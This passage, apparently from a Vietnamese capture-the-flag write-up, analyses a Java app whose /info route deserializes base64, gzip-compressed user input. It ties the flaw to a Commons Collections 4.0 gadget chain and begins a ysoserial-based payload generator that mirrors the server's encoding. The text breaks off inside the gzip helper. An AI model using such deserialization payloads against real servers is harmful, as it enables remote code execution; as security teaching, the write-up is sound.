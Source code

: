 ```java
        return s.replaceAll("-", "\\r\\n").replaceAll("%3D", "=").replaceAll("%2B", "\\+").replaceAll("_", "/");
    }
}
```
**Phân tích**: Ở route `/info/{info}` có method `readObject()` deserialize object từ user input là đáng chú ý, mình xin phân tích route này như sau:
1. Data của biến `info` được lấy từ uri path ứng với: `/info/{info}` nhờ annotation @PathVariable.
2. Biến `info` này sau đó được replace lại 1 số kí tự bằng method `unEncode()` và sẽ được base64 decode.
3. Ở đây nếu param `compress` được set là `true` thì `info` sẽ được nạp dưới dạng là 1 object stream được nén gzip và cuối cùng sẽ được deserialize ở method `readObject()`.

Đây rõ ràng là lỗ hổng `Java Insecure Deserialization`, để exploit thì điều tiếp theo mình cần làm là tìm là 1 sink mà có thể dẫn đển RCE khi deserialize object.

Tìm đến file `pom.xml`, là file chứa thông tin để build java app thì mình thấy được server có dùng `Commons Collection 4` version `4.0`. CC4 version 4.0 có [CVE](https://security.snyk.io/vuln/SNYK-JAVA-ORGAPACHECOMMONS-30008) chứa gadget chain có thể dẫn đến RCE khi insecure deserialize obj.

<img width="710" alt="11_14_41-src – pom xml  waf-deser-0 0 1-SNAPSHOT (2)" src="https://user-images.githubusercontent.com/71699412/196037828-17f99c3f-fff4-431e-9f30-4ca793b1ac17.png">

## Exploit
Đến đây mình biết cần sử dụng gadget chain CC4 để exploit RCE, gadget này đã có sẵn trong tool ysoserial, ở Intellij mình có thể tạo 1 project Java và add `ysoserial.jar` as a library là có thể dùng được method tạo gadget có sẵn. Sau khi serialize gadget này, mình cần nén gzip lại rồi base64 encode cũng như replace lại luôn 1 số kí tự như ở server để gửi đi ở uri path mà không gây lỗi.

**Script gen payload**:
```java
import ysoserial.payloads.CommonsCollections4;

import java.io.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.zip.GZIPOutputStream;

public class Exploit {

    private static String unEncode(String s) {
        return s.replaceAll("-", "\\r\\n").replaceAll("%3D", "=").replaceAll("%2B", "\\+").replaceAll("_", "/");
    }

    private static String encodeB(String s) {
        return s.replaceAll("\\r\\n", "-").replaceAll("=", "%3D").replaceAll("\\+", "%2B").replaceAll("/", "_");
    }

    public static final int bufferSize = 1024;

    public static void gZipFile(String inputPath, String outputPath) throws Exception {

        FileInputStream fis = new FileInputStream(inputPath);
        FileOutputStream fos = new FileOutputStream(outputPath);
        GZIPOutputStream gos = new GZIPOutputStream(fos);
        byte[] buffer = new byte[bufferSize];

        try{
            int len;
            while((len = fis.read(buffer)) != -1) {
                gos.write(buffer, 0, len);
            }
```